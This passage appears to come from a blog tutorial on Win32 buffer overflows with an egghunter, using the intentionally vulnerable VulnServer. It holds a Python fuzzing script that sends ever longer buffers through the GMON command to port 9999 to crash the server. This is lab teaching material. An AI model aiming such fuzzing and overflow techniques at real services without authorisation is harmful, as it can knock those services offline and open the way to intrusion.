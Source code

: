 

***



# Examples





## VulnServer w/ Egghunter



In this example I am going to go over **VulnServer** which is an intentionally vulnerable server that listens on port 9999 for any incoming connections and supports numerous types of commands as previously saw in Part 1. 



### Fuzzing & Finding the Crash



Now similar to [Part 1](https://m0chan.github.io/2019/08/20/Simple-Win32-Buffer-Overflow-EIP-Overwrite.html) I do not want to demonstrate fuzzing every single available command on **VulnServer** If you're looking for something like that check our **booFuzz** it's pretty cool. In this case I am only going to fuzz the `GMON` command to save time and to focus on the exploitation part itself.



Let's kick it off with a simple fuzz of this command with the below script.



```python
#!/usr/bin/python
import socket
import sys

buffer=["A"]
counter=100

while len(buffer) <= 30:
	buffer.append("A"*counter)
	counter=counter+200


for string in buffer:
	print "[*] Starting to Fuzz GMON with %s bytes" %len(string)
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect(('bof.local',9999))
	print "[*] Connected to bof.local on Port 9999"
	s.send(('GMON /.:/' + string))
	s.close()
print "[*] Finished Fuzzing GMON with %s bytes" %len(string)
```
